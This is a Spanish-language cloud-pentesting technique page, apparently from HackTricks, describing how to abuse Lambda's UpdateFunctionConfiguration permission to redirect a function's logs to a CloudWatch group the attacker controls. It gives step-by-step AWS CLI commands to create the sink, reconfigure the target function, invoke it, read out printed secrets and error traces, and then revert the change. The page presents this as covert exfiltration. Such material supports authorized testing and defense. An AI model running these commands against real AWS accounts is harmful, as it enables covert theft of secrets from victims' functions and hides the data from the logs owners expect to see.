 # AWS Lambda – Log Siphon mediante LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

Abusa de `lambda:UpdateFunctionConfiguration` para redirigir los logs de una función a un grupo de CloudWatch Logs elegido por el atacante. Esto funciona sin cambiar el código ni el execution role (la mayoría de los roles de Lambda ya incluyen `logs:CreateLogGroup/CreateLogStream/PutLogEvents` vía `AWSLambdaBasicExecutionRole`). Si la función imprime secrets/request bodies o falla con stack traces, puedes recopilarlos desde el nuevo grupo de logs.

## Permisos requeridos
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (o confiar en triggers existentes)
- logs:CreateLogGroup (a menudo no requerido si el role de la función ya lo tiene)
- logs:FilterLogEvents (para leer eventos)

## Pasos
1) Crea un grupo sink de logs
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) Redirigir los registros de la función objetivo
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
Espera hasta que `LastUpdateStatus` sea `Successful`:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) Invocar y leer desde el sink
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## Impacto
- Redirigir de forma encubierta todos los logs de la aplicación/sistema a un grupo de logs que controlas, eludiendo la expectativa de que los logs solo vayan a `/aws/lambda/<fn>`.
- Exfiltrar datos sensibles que la función imprima o que aparezcan en errores.

## Limpieza
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## Notas
- Los controles de logging son parte de `LoggingConfig` de Lambda (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel).
- Por defecto, Lambda envía los logs a `/aws/lambda/<function>`, pero puedes apuntar a cualquier nombre de log group; Lambda (o el rol de ejecución) lo creará si tiene permiso.

{{#include ../../../../banners/hacktricks-training.md}}
